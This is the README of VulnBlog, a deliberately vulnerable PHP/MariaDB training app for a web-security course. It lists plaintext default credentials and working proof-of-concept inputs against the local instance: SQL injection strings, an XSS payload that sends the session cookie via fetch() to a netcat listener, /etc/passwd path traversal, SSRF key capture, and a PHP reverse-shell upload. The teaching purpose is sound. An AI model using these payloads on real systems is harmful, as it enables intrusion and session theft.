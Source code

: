# VulnBlog

A vulnerable PHP/MariaDB web application created for the BIF-5/WEBSEC course.

## Setup
**Note:** `setup.sh` enables apache2 and mariadb at startup.

```
git clone https://github.com/FelixSchuster/VulnBlog
cd VulnBlog
sudo chmod +x setup.sh
sudo ./setup.sh
```

Vulnblog will be available at http://127.0.0.1/vulnblog

## Docker
```
sudo docker build -t vulnblog .
sudo docker run -d -p 80:80 vulnblog
```

## Default Credentials
Database:
- `vulnuser`:`P@ssword`

Webpage:
- `Admin`:`Admin`
- `Felix`:`P@ssword`
- `Alex`:`P@ssword`
- `Bea`:`P@ssword`
- `Kathrin`:`%-.Z]~xt#Adnq@hW^|{0Uyr(.S3Wal`

Passwords are currently saved in plain text, might change this later on.. or not, it's just another vulnerability to test for.

## Vulnerabilities / Proof of Concept

### A01:2021 – Broken Access Control
In the navbar select 'History' and edit any blogpost.

You can edit blogposts of other users by editing the id parameter in the url.
```
http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
```

### A03:2017 – Injection
The login form is sql injectable:
```
http://127.0.0.1/vulnblog/index.php?page=login.php
```

Valid SQL injection queries are:
```
' or 1=1 #
<username>' #
```

### A7:2017 – Cross-Site Scripting (XSS)
Create a blogpost including the following payload:
```
<script>alert("XSS");</script>
```

Try hijacking a php session cookie using the payload:
```
<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
```

Additionally start a netcat listener using:
```
nc -lvnkp 1234
```

### A04:2013 – Insecure Direct Object References
Try accessing:
```
http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
```

### A10:2021 – Server-Side Request Forgery (SSRF)
Clicking on Dogs sends a GET Request with an imaginery API Key to the dog ceo API.
The URL looks like that: http://localhost/vulnblog/index.php?page=dogs.php&url=https://dog.ceo/api/breeds/image/random

We can change the url to our own webserver: &url=http://localhost:8888

Start a listener, resend the request and retrieve the secret:
```bash
alex@kali:~/VulnBlog$ nc -lvnp 8888                                  
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60404
GET / HTTP/1.1
Host: localhost:8888
Authorization: Basic VG9wU2VjcmV0QXBpS2V5ITo=
Accept: */*

alex@kali:~/VulnBlog$ echo "VG9wU2VjcmV0QXBpS2V5ITo=" | base64 -d    
TopSecretApiKey!:
```

### A03:2017 – Sensitive Data Exposure
Vulnblog offers the capability to upload images in blog entries. The access is not protected, this allows users to navigate to the directory and get access to the uploads.
```
http://localhost/vulnblog/uploads/
```

### A03:2007 – Malicious File Execution
Unrestricted file uploads:

You can upload a PHP script to execute malicious code.
Try to upload the php-reverse-shell script to gain access to the server.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
The file will be executed.

After that you need to get access to the server in order to use the reverse shell.
Use Netcat to listen on port 1234.
```
nc -lvnp 1234
```
Now you can test if you are connected to the web server.
```
whoami
```

## Database
For further information see `./database/db.sql`.

![Database Diagram](./database/db.drawio.png)
